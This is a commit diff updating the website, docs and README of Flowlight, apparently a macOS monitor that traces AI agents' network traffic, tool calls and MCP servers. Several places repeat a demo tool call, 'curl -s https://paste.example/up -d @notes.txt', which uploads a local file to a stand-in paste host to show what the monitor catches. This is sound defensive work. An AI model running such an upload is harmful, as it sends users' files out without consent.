

Site and README: tools an agent declares, and provider-side MCP servers
Two new panels on the home page (Tools tab, MCP servers with a provider
connector), a Models and tokens point, and docs explaining what a
request declares beyond the calls themselves.

diff --git a/docs/index.html b/docs/index.html
@@ -77,7 +77,7 @@
 
   <section class="shot" aria-label="Screenshot">
     <div class="wrap">
-      <div class="frame"><img src="assets/screenshots/agents.png?v=6026fe66" width="1600" height="1075"
+      <div class="frame"><img src="assets/screenshots/agents.png?v=8fc35fb0" width="1600" height="1075"
         alt="Flowlight's AI Agents view. Claude Code, Cursor, Codex and a Python script are listed with their AI providers, traffic sent elsewhere and risk badges for SMTP, SSH, FTP, a large upload and a raw IP."></div>
       <p class="caption">The AI Agents view: each agent's model provider, and everything else it talked to. Shown with demo data.</p>
     </div>
@@ -186,7 +186,7 @@
         <div class="rule">
           <span class="sev info">⌕ Opt-in</span>
           <div><h3>Tool calls, from the model's own responses</h3>
-            <p>Turn on HTTPS inspection and Flowlight reads every tool call the model asks an agent to run and the result that came back, then ties each tool's request back to the call that caused it.</p>
+            <p>Turn on HTTPS inspection and Flowlight reads every tool an agent offers the model, every call the model asks for and the result that came back, then ties each tool's request back to the call that caused it.</p>
             <p class="example">curl → paste.example:443 &nbsp;←&nbsp; Bash: curl -s https://paste.example/up -d @notes.txt</p></div>
         </div>
         <div class="rule">
@@ -316,9 +316,19 @@
         alt="Flowlight's Inspect view: a list of decrypted Claude Code requests with their tool calls, and the detail of curl's upload to paste.example, made by the Bash tool call that ran it, with the uploaded notes in the request body"></div>
         <figcaption><b>Where did my notes go?</b> curl's upload to paste.example, traced to the Bash command the model asked for, with the
           body it sent.</figcaption></figure>
+      <div class="screens" style="margin-top:32px">
+        <figure><div class="frame"><img src="assets/screenshots/agent-tools.png?v=223d6446" width="1600" height="622" loading="lazy"
+          alt="The Tools tab for Claude Code: Bash, Read and two MCP tools with descriptions and how often the model called each"></div>
+          <figcaption><b>Every tool an agent offers the model.</b> Agents declare their tools on each turn, so Flowlight lists them all, with the
+            ones the model actually used and the ones it never touched.</figcaption></figure>
+        <figure><div class="frame"><img src="assets/screenshots/mcp-servers.png?v=eeacdce8" width="1600" height="622" loading="lazy"
+          alt="The MCP servers tab for Codex: a sentry server marked via provider, its URL, approval set to never, allowed tools and the tools it offers"></div>
+          <figcaption><b>Including the ones you can't see on the wire.</b> When an agent asks the provider to connect to an MCP server, that traffic
+            never reaches your Mac. Its request does, so the server, its URL, its approval setting and its tools still show up.</figcaption></figure>
+      </div>
       <div class="privacy" style="margin-top:32px">
         <div><strong>Tool calls and results</strong><p>Anthropic, OpenAI, Gemini and MCP. Each call with its command, its output or error, and the requests its tool made.</p></div>
-        <div><strong>MCP servers</strong><p>Name, version, local or remote, the tools each one offers, and how often they were called or failed.</p></div>
+        <div><strong>Models and tokens</strong><p>Which model answered, how many calls, and tokens in, out and served from cache, per agent.</p></div>
         <div><strong>Readable bodies</strong><p>JSON as a collapsible tree in its original order, streams one event at a time, headers and raw view.</p></div>
         <div><strong>On your terms</strong><p>AI agents only by default. Apple services and password managers are never decrypted, credentials never stored, and one button removes it all.</p></div>
       </div>
@@ -342,7 +352,7 @@
 
   <section class="band" id="agent-detail" aria-label="Agent detail screenshot">
     <div class="wrap">
-      <figure class="detail-shot"><div class="frame"><img src="assets/screenshots/agent-detail.png?v=38ee758d" width="1600" height="622" loading="lazy"
+      <figure class="detail-shot"><div class="frame"><img src="assets/screenshots/agent-detail.png?v=69eeb8c3" width="1600" height="622" loading="lazy"
         alt="Claude Code's detail in Flowlight: Tools and MCP servers with call counts and one failure, an allowlist, and the Tool calls tab listing a failed git push, a curl upload to paste.example with its response and request, npm install, a GitHub issue, a docs search and a file read, each with its result"></div>
         <figcaption><b>One agent, every tool call.</b> Traffic from the git, curl and MCP servers Claude Code started counts as Claude Code's.
           With HTTPS inspection on, the <em>Tool calls</em> tab shows what the model asked for, what came back, and the requests each tool made:

diff --git a/site/pages/index.html b/site/pages/index.html
@@ -157,7 +157,7 @@ nav: home
         <div class="rule">
           <span class="sev info">⌕ Opt-in</span>
           <div><h3>Tool calls, from the model's own responses</h3>
-            <p>Turn on HTTPS inspection and Flowlight reads every tool call the model asks an agent to run and the result that came back, then ties each tool's request back to the call that caused it.</p>
+            <p>Turn on HTTPS inspection and Flowlight reads every tool an agent offers the model, every call the model asks for and the result that came back, then ties each tool's request back to the call that caused it.</p>
             <p class="example">curl → paste.example:443 &nbsp;←&nbsp; Bash: curl -s https://paste.example/up -d @notes.txt</p></div>
         </div>
         <div class="rule">
@@ -287,9 +287,19 @@ nav: home
         alt="Flowlight's Inspect view: a list of decrypted Claude Code requests with their tool calls, and the detail of curl's upload to paste.example, made by the Bash tool call that ran it, with the uploaded notes in the request body"></div>
         <figcaption><b>Where did my notes go?</b> curl's upload to paste.example, traced to the Bash command the model asked for, with the
           body it sent.</figcaption></figure>
+      <div class="screens" style="margin-top:32px">
+        <figure><div class="frame"><img src="{{root}}assets/screenshots/agent-tools.png" width="1600" height="622" loading="lazy"
+          alt="The Tools tab for Claude Code: Bash, Read and two MCP tools with descriptions and how often the model called each"></div>
+          <figcaption><b>Every tool an agent offers the model.</b> Agents declare their tools on each turn, so Flowlight lists them all, with the
+            ones the model actually used and the ones it never touched.</figcaption></figure>
+        <figure><div class="frame"><img src="{{root}}assets/screenshots/mcp-servers.png" width="1600" height="622" loading="lazy"
+          alt="The MCP servers tab for Codex: a sentry server marked via provider, its URL, approval set to never, allowed tools and the tools it offers"></div>
+          <figcaption><b>Including the ones you can't see on the wire.</b> When an agent asks the provider to connect to an MCP server, that traffic
+            never reaches your Mac. Its request does, so the server, its URL, its approval setting and its tools still show up.</figcaption></figure>
+      </div>
       <div class="privacy" style="margin-top:32px">
         <div><strong>Tool calls and results</strong><p>Anthropic, OpenAI, Gemini and MCP. Each call with its command, its output or error, and the requests its tool made.</p></div>
-        <div><strong>MCP servers</strong><p>Name, version, local or remote, the tools each one offers, and how often they were called or failed.</p></div>
+        <div><strong>Models and tokens</strong><p>Which model answered, how many calls, and tokens in, out and served from cache, per agent.</p></div>
         <div><strong>Readable bodies</strong><p>JSON as a collapsible tree in its original order, streams one event at a time, headers and raw view.</p></div>
         <div><strong>On your terms</strong><p>AI agents only by default. Apple services and password managers are never decrypted, credentials never stored, and one button removes it all.</p></div>
       </div>

diff --git a/docs/docs/index.html b/docs/docs/index.html
@@ -127,8 +127,13 @@ open build/Build/Products/Release/Flowlight.app</pre>
         links each request a tool makes back to the call that caused it: curl's request to <em>paste.example</em> shows
         <em>← Bash: curl -s https://paste.example/up</em>. In <strong>AI Agents</strong>, an agent's detail gets <strong>Tool calls</strong>
         (each call with its command, result or error, and the requests it made) and <strong>MCP servers</strong> (name and version, local or
-        remote, the tools it offers, calls and failures). Bodies open as a collapsible JSON tree in their original key order; event streams
-        show one event at a time.</p>
+        remote or <em>via provider</em>, the tools it offers, calls and failures) and <strong>Tools</strong> (every tool the agent declares to the
+        model, with how often each was used). The agent's header line shows the model, the number of calls and the tokens spent, including
+        cached ones. Bodies open as a collapsible JSON tree in their original key order; event streams show one event at a time.</p>
+      <p>Agents declare their tools on every turn, so an inspected request shows more than the calls themselves: the tools the agent offers,
+        the ones the provider runs on its own servers (web search, code execution), and the MCP servers the provider connects to for the agent
+        (Anthropic's <code>mcp_servers</code>, OpenAI's <code>mcp</code> tool) with their URL, token, approval setting and allowed tools. That
+        last group never appears on your network, because the provider makes those connections, not your Mac.</p>
       <ol>
         <li><strong>Turn it on</strong> in Inspect › Setup. By default only AI agents and the tools they start are decrypted; other apps sent through
           the proxy pass through encrypted and aren't recorded.</li>

diff --git a/site/pages/docs.html b/site/pages/docs.html
@@ -98,8 +98,13 @@ open build/Build/Products/Release/Flowlight.app</pre>
         links each request a tool makes back to the call that caused it: curl's request to <em>paste.example</em> shows
         <em>← Bash: curl -s https://paste.example/up</em>. In <strong>AI Agents</strong>, an agent's detail gets <strong>Tool calls</strong>
         (each call with its command, result or error, and the requests it made) and <strong>MCP servers</strong> (name and version, local or
-        remote, the tools it offers, calls and failures). Bodies open as a collapsible JSON tree in their original key order; event streams
-        show one event at a time.</p>
+        remote or <em>via provider</em>, the tools it offers, calls and failures) and <strong>Tools</strong> (every tool the agent declares to the
+        model, with how often each was used). The agent's header line shows the model, the number of calls and the tokens spent, including
+        cached ones. Bodies open as a collapsible JSON tree in their original key order; event streams show one event at a time.</p>
+      <p>Agents declare their tools on every turn, so an inspected request shows more than the calls themselves: the tools the agent offers,
+        the ones the provider runs on its own servers (web search, code execution), and the MCP servers the provider connects to for the agent
+        (Anthropic's <code>mcp_servers</code>, OpenAI's <code>mcp</code> tool) with their URL, token, approval setting and allowed tools. That
+        last group never appears on your network, because the provider makes those connections, not your Mac.</p>
       <ol>
         <li><strong>Turn it on</strong> in Inspect › Setup. By default only AI agents and the tools they start are decrypted; other apps sent through
           the proxy pass through encrypted and aren't recorded.</li>

diff --git a/README.md b/README.md
@@ -65,8 +65,8 @@ and MCP servers did:
   local network are always allowed; anything else raises an alert, and each destination has a one-click **Allow**.
 
 - **Tool calls, from the model itself (optional).** Turn on [HTTPS inspection](#https-inspection-optional) and Flowlight
-  reads every tool call the model asks the agent to run (Anthropic, OpenAI, Gemini, and MCP `tools/call`) and the
-  result the agent sent back (output, or the error), then links each tool's request back to the call that caused it:
+  reads every tool the agent offers the model, every call the model asks for (Anthropic, OpenAI, Gemini, and MCP
+  `tools/call`) and the result the agent sent back, then links each tool's request back to the call that caused it:
   *curl → paste.example ← Bash: curl -s https://paste.example/up*. For MCP servers reached over HTTP it also records the
   server's name and version and the tools it offers. Each agent's detail has **Tool calls** and **MCP servers** tabs.
 
@@ -93,6 +93,10 @@ on your Mac, and decrypts the apps you route through it: headers, bodies, status
   proxy for desktop apps; its PAC file falls back to a direct connection whenever Flowlight isn't running.
 - **Never decrypted:** Apple services, password managers, anything you add, and apps that pin their certificates
   (detected and passed through automatically).
+- **What each agent declares.** Tools it offers the model (and which the model actually used), the provider's own tools
+  (web search, code execution), the model, the number of calls and tokens in/out/cached.
+- **MCP servers, all three kinds:** local processes, servers this Mac calls over HTTPS, and servers the *provider*
+  connects to for the agent, with their URL, approval setting and allowed tools. The last kind never touches your network.
 - **Readable bodies:** JSON as a collapsible tree in its original key order, event streams one event at a time, or raw.
 - **Credential headers are never stored**, recordings are kept 3 days, and one button removes the certificate, its trust
   setting and everything recorded.
@@ -232,7 +236,7 @@ Flowlight/
   Analysis/          anomaly engine, AI agent catalog + rules
   Inspection/        opt-in HTTPS inspection: local CA, proxy, HTTP parser, tool-call reader
   UI/                Live · AI Agents · Reports · Alerts · Inspect · Capture
-FlowlightTests/      91 unit tests: parsers, BPF filter, rollups, charts, agents, MCP, allowlists, inspection, updates
+FlowlightTests/      101 unit tests: parsers, BPF filter, rollups, charts, agents, MCP, allowlists, inspection, updates
 docs/                website (GitHub Pages) and developer guide
 ```
 
